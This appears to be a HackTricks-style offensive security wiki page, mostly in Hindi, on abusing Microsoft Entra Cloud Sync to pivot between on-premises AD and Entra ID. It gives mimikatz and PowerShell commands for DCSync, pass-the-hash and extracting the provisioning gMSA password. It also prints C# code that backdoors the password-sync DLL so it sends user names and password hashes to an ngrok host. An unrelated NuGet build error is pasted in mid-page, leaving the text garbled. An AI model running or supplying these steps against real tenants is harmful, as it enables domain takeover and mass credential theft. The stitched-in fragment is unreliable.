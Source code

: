 # Az - Cloud Sync

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

**Cloud Sync** मूल रूप से Azure का नया तरीका है **AD से Entra ID में उपयोगकर्ताओं को समन्वयित करने के लिए**।

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/what-is-cloud-sync) Microsoft Entra Cloud Sync Microsoft द्वारा एक नई पेशकश है जो उपयोगकर्ताओं, समूहों और संपर्कों को Microsoft Entra ID में समन्वयित करने के लिए आपके हाइब्रिड पहचान लक्ष्यों को पूरा करने और प्राप्त करने के लिए डिज़ाइन की गई है। यह Microsoft Entra Connect एप्लिकेशन के बजाय Microsoft Entra क्लाउड प्रोविजनिंग एजेंट का उपयोग करके इसे पूरा करता है। हालाँकि, इसे Microsoft Entra Connect Sync के साथ भी उपयोग किया जा सकता है।

### Principals Generated

इस कार्य के लिए कुछ प्रिंसिपल Entra ID और On-Premise डायरेक्टरी में बनाए जाते हैं:

- Entra ID में उपयोगकर्ता `On-Premises Directory Synchronization Service Account` (`ADToAADSyncServiceAccount@carloshacktricks.onmicrosoft.com`) को **`Directory Synchronization Accounts`** (`d29b2b05-8046-44ba-8758-1e26182fcf32`) भूमिका के साथ बनाया गया है।

> [!WARNING]
> इस भूमिका में पहले बहुत सारे विशेषाधिकार थे और इसका उपयोग [**विशेषाधिकारों को वैश्विक व्यवस्थापक तक बढ़ाने के लिए किया जा सकता था**](https://medium.com/tenable-techblog/stealthy-persistence-with-directory-synchronization-accounts-role-in-entra-id-63e56ce5871b)। हालाँकि, Microsoft ने इस भूमिका के सभी विशेषाधिकारों को हटाने और इसे केवल एक नए **`microsoft.directory/onPremisesSynchronization/standard/read`** के साथ असाइन करने का निर्णय लिया है जो वास्तव में किसी भी विशेषाधिकार कार्रवाई (जैसे उपयोगकर्ता का पासवर्ड या विशेषताओं को संशोधित करना या SP में एक नई क्रेडेंशियल जोड़ना) करने की अनुमति नहीं देता है।

- Entra ID में समूह **`AAD DC Administrators`** भी बिना सदस्यों या मालिकों के बनाया गया है। यह समूह उपयोगी है यदि [`Microsoft Entra Domain Services`](./az-domain-services.md) का उपयोग किया जाता है।

- AD में, या तो सेवा खाता **`provAgentgMSA`** को **`pGMSA_<id>$@domain.com`** जैसे SamAcountName के साथ बनाया गया है (`Get-ADServiceAccount -Filter * | Select Name,SamAccountName`), या एक कस्टम खाता [**इन अनुमतियों की आवश्यकता है**](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/how-to-prerequisites?tabs=public-cloud#custom-gmsa-account)। आमतौर पर डिफ़ॉल्ट खाता बनाया जाता है।

> [!WARNING]
> अन्य अनुमतियों के बीच सेवा खाता **`provAgentgMSA`** के पास DCSync अनुमतियाँ हैं, जो **किसी भी व्यक्ति को जो इसे समझौता करता है, पूरे डायरेक्टरी को समझौता करने की अनुमति देती हैं**। [DCSync के बारे में अधिक जानकारी के लिए इसे देखें](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dcsync.html)।

> [!NOTE]
> डिफ़ॉल्ट रूप से, ज्ञात विशेषाधिकार समूहों के उपयोगकर्ता जैसे डोमेन व्यवस्थापक जिनका विशेषता **`adminCount` 1 है, Entra ID के साथ समन्वयित नहीं होते** सुरक्षा कारणों से। हालाँकि, अन्य उपयोगकर्ता जो इस विशेषता के बिना विशेषाधिकार समूहों का हिस्सा हैं या जिन्हें सीधे उच्च विशेषाधिकार सौंपे गए हैं **समन्वयित किए जा सकते हैं**।

## Password Sychronization

यह अनुभाग बहुत समान है:

{{#ref}}
az-connect-sync.md
{{#endref}}

- **पासवर्ड हैश समन्वयन** सक्षम किया जा सकता है ताकि उपयोगकर्ता **AD से अपने पासवर्ड का उपयोग करके Entra ID में लॉगिन कर सकें**। इसके अलावा, जब भी AD में पासवर्ड संशोधित किया जाता है, यह Entra ID में अपडेट हो जाएगा।
- **पासवर्ड राइटबैक** को भी सक्षम किया जा सकता है, जिससे उपयोगकर्ता अपने पासवर्ड को Entra ID में संशोधित कर सकते हैं और अपने पासवर्ड को ऑन-प्रिमाइस डोमेन में स्वचालित रूप से समन्वयित कर सकते हैं। लेकिन [वर्तमान दस्तावेज़ों](https://learn.microsoft.com/en-us/entra/identity/authentication/tutorial-enable-sspr-writeback#configure-password-writeback) के अनुसार, इसके लिए Connect एजेंट का उपयोग करना आवश्यक है, इसलिए अधिक जानकारी के लिए [Az Connect Sync अनुभाग](./az-connect-sync.md) पर नज़र डालें।
- **समूह राइटबैक**: यह सुविधा Entra ID से समूह सदस्यताओं को ऑन-प्रिमाइस AD में वापस समन्वयित करने की अनुमति देती है। इसका मतलब है कि यदि किसी उपयोगकर्ता को Entra ID में एक समूह में जोड़ा जाता है, तो उन्हें AD में संबंधित समूह में भी जोड़ा जाएगा।

## Pivoting

### AD --> Entra ID

- यदि AD उपयोगकर्ताओं को AD से Entra ID में समन्वयित किया जा रहा है, तो AD से Entra ID में पिवट करना सीधा है, बस **किसी उपयोगकर्ता का पासवर्ड समझौता करें या किसी उपयोगकर्ता का पासवर्ड बदलें या एक नया उपयोगकर्ता बनाएं और जब तक यह Entra ID डायरेक्टरी में समन्वयित नहीं होता (आमतौर पर केवल कुछ मिनट)**।

तो आप उदाहरण के लिए
- **`provAgentgMSA`** खाता समझौता करें, DCSync हमला करें, किसी उपयोगकर्ता का पासवर्ड क्रैक करें और फिर इसका उपयोग Entra ID में लॉगिन करने के लिए करें।
- बस AD में एक नया उपयोगकर्ता बनाएं, जब तक यह Entra ID में समन्वयित नहीं होता और फिर इसका उपयोग Entra ID में लॉगिन करने के लिए करें।
- AD में किसी उपयोगकर्ता का पासवर्ड संशोधित करें, जब तक यह Entra ID में समन्वयित नहीं होता और फिर इसका उपयोग Entra ID में लॉगिन करने के लिए करें।

**`provAgentgMSA`** क्रेडेंशियल्स को समझौता करने के लिए:
```powershell
# Enumerate provAgentgMSA account
Get-ADServiceAccount -Filter * -Server domain.local
# Find who can read the password of the gMSA (usually only the DC computer account)
Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties * -Server domain.local | selectPrincipalsAllowedToRetrieveManagedPassword

# You need to perform a PTH with the hash of the DC computer account next. For example using mimikatz:
lsadump::dcsync /domain:domain.local /user:<dc-name>$
sekurlsa::pth /user:<dc-name>$ /domain:domain.local /ntlm:<hash> /run:"cmd.exe"

# Or you can change who can read the password of the gMSA account to all domain admins for example:
Set-ADServiceAccount -Identity 'pGMSA_<id>$' -PrincipalsAllowedToRetrieveManagedPassword 'Domain Admins'

# Read the password of the gMSA
$Passwordblob = (Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties msDS-ManagedPassword -server domain.local).'msDS-ManagedPassword'

#Install-Module -Name DSInternals
#Import-Module DSInternals
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```
अब आप gMSA के हैश का उपयोग करके `provAgentgMSA` खाते के खिलाफ Entra ID के खिलाफ Pass-the-Hash हमले को अंजाम दे सकते हैं और DCSync हमलों को करने के लिए स्थिरता बनाए रख सकते हैं।

Active Directory को समझौता करने के तरीके के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html
{{#endref}}

> [!NOTE]
> ध्यान दें कि Azure या EntraID भूमिकाएँ सिंक किए गए उपयोगकर्ताओं को उनके गुणों के आधार पर देने का कोई तरीका नहीं है, उदाहरण के लिए Cloud Sync कॉन्फ़िगरेशन में। हालाँकि, सिंक किए गए उपयोगकर्ताओं को स्वचालित रूप से अनुमतियाँ देने के लिए कुछ **AD से Entra ID समूहों** को अनुमतियाँ दी जा सकती हैं ताकि उन समूहों के अंदर सिंक किए गए उपयोगकर्ताओं को भी उन्हें प्राप्त हो सके या **गतिशील समूहों का उपयोग किया जा सकता है**, इसलिए हमेशा गतिशील नियमों और उन्हें दुरुपयोग करने के संभावित तरीकों की जांच करें:

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/dynamic-groups.md
{{#endref}}

स्थिरता के संबंध में [यह ब्लॉग पोस्ट](https://tierzerosecurity.co.nz/2024/05/21/ms-entra-connect-sync-mothods.html) सुझाव देती है कि [**dnSpy**](https://github.com/dnSpy/dnSpy) का उपयोग करके **`Microsoft.Online.Passwordsynchronisation.dll`** को बैकडोर करना संभव है जो **`C:\Program Files\Microsoft Azure AD Sync\Bin`** में स्थित है और जिसका उपयोग Cloud Sync एजेंट द्वारा पासवर्ड समन्वयन करने के लिए किया जाता है, जिससे यह उपयोगकर्ताओं के पासवर्ड हैश को एक दूरस्थ सर्वर पर एक्सफिल्ट्रेट करता है। हैश को **`PasswordHashGenerator`** वर्ग के अंदर उत्पन्न किया जाता है और ब्लॉग पोस्ट सुझाव देती है कि कुछ कोड जोड़ा जाए ताकि वर्ग इस तरह दिखे (ध्यान दें `use System.Net` और पासवर्ड हैश को एक्सफिल्ट्रेट करने के लिए `WebClient` का उपयोग):
```csharp
using System;
using System.Net;
using Microsoft.Online.PasswordSynchronization.DirectoryReplicationServices;

namespace Microsoft.Online.PasswordSynchronization
{
// Token: 0x0200003E RID: 62
public class PasswordHashGenerator : ClearPasswordHashGenerator
{
// Token: 0x06000190 RID: 400 RVA: 0x00006DFC File Offset: 0x00004FFC
public override PasswordHashData CreatePasswordHash(ChangeObject changeObject)
{
PasswordHashData passwordHashData = base.CreatePasswordHash(changeObject);
try
{
using (WebClient webClient = new WebClient())
{
webClient.DownloadString("https://786a39c7cb68.ngrok-free.app?u=" + changeObject.DistinguishedName + "&p=" + passwordHashData.Hash);
}
}
catch (Exception)
{
}
return new PasswordHashData
{
Hash = OrgIdHashGenerator.Generate(passwordHashData.Hash),
RawHash = passwordHashData.RawHash
};
}
}
}
```
NuGet Package restore failed for project AzTokenFinder: Unable to find version '4.3.2' of package 'System.Security.Cryptography.X509Certificates'.
C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\: Package 'System.Security.Cryptography.X509Certificates.4.3.2' is not found on source 'C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\'.
. Please see Error List window for detailed warnings and errors.

### Entra ID --> AD

- यदि **Password Writeback** सक्षम है, तो आप Entra ID से कुछ उपयोगकर्ताओं का पासवर्ड संशोधित कर सकते हैं और यदि आपके पास AD नेटवर्क तक पहुंच है, तो उनके माध्यम से कनेक्ट करें। अधिक जानकारी के लिए [Az Connect Sync section](./az-connect-sync.md) अनुभाग देखें क्योंकि पासवर्ड राइटबैक उस एजेंट का उपयोग करके कॉन्फ़िगर किया गया है।

- इस समय Cloud Sync भी **"Microsoft Entra ID to AD"** की अनुमति देता है, लेकिन बहुत समय बाद मैंने पाया कि यह EntraID उपयोगकर्ताओं को AD में समन्वयित नहीं कर सकता और यह केवल उन EntraID उपयोगकर्ताओं को समन्वयित कर सकता है जो पासवर्ड हैश के साथ समन्वयित किए गए थे और उसी डोमेन वन के डोमेन से आते हैं जिसमें हम समन्वयित कर रहे हैं, जैसा कि आप पढ़ सकते हैं [https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits](https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits):

> - ये समूह केवल ऑन-प्रिमाइसेस समन्वयित उपयोगकर्ताओं और / या अतिरिक्त क्लाउड द्वारा बनाए गए सुरक्षा समूहों को शामिल कर सकते हैं।
> - ऑन-प्रिमाइसेस उपयोगकर्ता खाते जो समन्वयित हैं और इस क्लाउड द्वारा बनाए गए सुरक्षा समूह के सदस्य हैं, वे उसी डोमेन से या क्रॉस-डोमेन से हो सकते हैं, लेकिन वे सभी एक ही वन से होने चाहिए।

इसलिए इस सेवा की हमले की सतह (और उपयोगिता) काफी कम हो जाती है क्योंकि एक हमलावर को उन उपयोगकर्ताओं को समन्वयित करने के लिए प्रारंभिक AD को समझौता करना होगा ताकि दूसरे डोमेन में एक उपयोगकर्ता को समझौता किया जा सके (और दोनों को स्पष्ट रूप से एक ही वन में होना चाहिए)।

### Enumeration
```bash
# Check for the gMSA SA
Get-ADServiceAccount -Filter "ObjectClass -like 'msDS-GroupManagedServiceAccount'"

# Get all the configured cloud sync agents (usually one per on-premise domain)
## In the machine name of each you can infer the name of the domain
az rest \
--method GET \
--uri "https://graph.microsoft.com/beta/onPremisesPublishingProfiles('provisioning')/agents/?\$expand=agentGroups" \
--headers "Content-Type=application/json"
```
{{#include ../../../../banners/hacktricks-training.md}}
